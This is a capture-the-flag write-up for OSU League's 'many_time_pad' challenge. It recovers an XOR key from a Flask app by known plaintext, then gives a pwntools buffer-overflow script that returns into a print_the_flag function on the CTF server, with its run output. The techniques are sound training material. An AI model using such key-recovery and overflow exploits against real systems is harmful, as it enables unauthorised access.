 ```yaml
---
title: "OSU League 2020/2021 - many_time_pad Writeup"
date: 2020-12-05
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
For this challenge, we are giving a link to a web page.  Going to it, we are greeted with this:  
{{< figure src="/img/1-many.png" >}}


They also give us the source code for the web server:

```python
from app import app
from app import cfg
from flask import render_template,request,redirect,make_response,send_file

#serve index.html
@app.route("/")
def index():
    return render_template("index.html")

#encrypt messages that are POSTed to /encrypt
@app.route("/encrypt", methods=["POST"])
def encrypt():
    #truncate message if longer than 256 bytes, convert to byte string
    plaintext = request.form.get("message")[:256].encode()
    #pad message with \xff bytes
    plaintext += b'\xff' * (256 - len(plaintext))
    #xor byte string with secret key
    ciphertext = bytes([plaintext_byte ^ key_byte for plaintext_byte, key_byte in zip(plaintext, cfg.secret_byte_string)])
    #put the ciphertext in a response header
    resp = make_response(render_template("index.html"))
    resp.headers["ciphertext"] = repr(ciphertext)
    return resp

#send server source code to those who request it
@app.route("/source")
def source():
    return send_file("./views.py")

#secret admin page, the URL is the secret key so it is secure
@app.route("/" + cfg.secret_byte_string.decode())
def win():
    return(render_template("win.html"))
```

Looking though the source code, it looks like our goal is to find `secret_byte_string`, as that will tell us the path to the admin site.  We also see how the ciphertext is generated.  It's an XOR between each byte of the plaintext we provide with the secret key.  So with the properties of XOR, if we know the plaintext and the ciphertext that would be generated, we can find the secret key!

We see here that our plaintext gets padded with `\xff` to get to 256 bytes, so if we just don't input anything into the field box, then we know our plaintext is `\xff\xff\xff ... ` 256 times. So let's try that, and look at the response header we get from sending it.

{{< figure src="/img/2-many.png" >}}

Alright, looks like we have the ciphertext, now to just XOR it with our plaintext. Xoring and coverting to ascii we get out path:  
`if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678`

We are then given a site with shows us how to set up our enviroment to do a pwn challenge along with a baby pwn to solve.  We are even given some skeleton code that we can use for the exploit.

Downloading the binary and disassembling it through gdb, we can immediatly see a vulnerability.  At `main+53`, we have a call to fgets, which would allow us to perform a buffer overflow attack.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x000000000040071b <+0>:     push   rbp
   0x000000000040071c <+1>:     mov    rbp,rsp
   0x000000000040071f <+4>:     sub    rsp,0x10
   0x0000000000400723 <+8>:     mov    eax,0x0
   0x0000000000400728 <+13>:    call   0x400692 <check_the_key>
   0x000000000040072d <+18>:    test   eax,eax
   0x000000000040072f <+20>:    jne    0x40075c <main+65>
   0x0000000000400731 <+22>:    lea    rdi,[rip+0x108]        # 0x400840
   0x0000000000400738 <+29>:    call   0x400520 <puts@plt>
   0x000000000040073d <+34>:    mov    rdx,QWORD PTR [rip+0x20090c]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400744 <+41>:    lea    rax,[rbp-0x10]
   0x0000000000400748 <+45>:    mov    esi,0x20
   0x000000000040074d <+50>:    mov    rdi,rax
   0x0000000000400750 <+53>:    call   0x400540 <fgets@plt>
   0x0000000000400755 <+58>:    mov    eax,0x0
   0x000000000040075a <+63>:    jmp    0x40075e <main+67>
   0x000000000040075c <+65>:    nop
   0x000000000040075d <+66>:    nop
   0x000000000040075e <+67>:    leave
   0x000000000040075f <+68>:    ret
End of assembler dump.
```

We can also open up the binary in Ghidra and see that the buffer we need to fill is 16 bytes long. Perfect, what can we do with this though?  Looking at the functions, we see something promising:

```
gdb-peda$ info functions

0x0000000000400647  print_the_flag
```

We also need to pass in our key we got from the web challenge portion to get to this point, so we need to remember to account for that.
So our current plan of attack sounds like:
1. Pass in our key
2. Fill the buffer up with 16 byte
3. Overwrite EBP with 8 bytes
4. Overwrite EIP with the address of `print_the_flag`
5. Win

In python, that looks like:

```python
from pwn import *
buffer_size = 16
addr_of_printflag_function = 0x0000000000400647
secret_key_string = "if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678"

p = remote("ctf-league.osusec.org", 31309)

print(p.recv())

print("sending the key string: " + secret_key_string)
p.send(secret_key_string)
print("response: " + p.recv().decode())

payload = b'A' * buffer_size

payload += b'B' * 8

payload += p64(addr_of_printflag_function)
print(b"payload: " + payload)
p.send(payload)
```

And running it we get the flag!!!

```
cameron@LAPTOP-PEKGUHAN:/mnt/c/Users/Cameron McCawley/Desktop/mtp$ python2 exploit.py
[+] Opening connection to ctf-league.osusec.org on port 31309: Done
enter the secret key from the web portion of this challenge
sending the key string: if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678
response:

payload: AAAAAAAAAAAAAAAABBBBBBBBG\x06\x00\x00\x00
[*] Switching to interactive mode
overflow my buffer and return to the print_the_flag function
osu{L0N6_W01f_H^x0r}
```

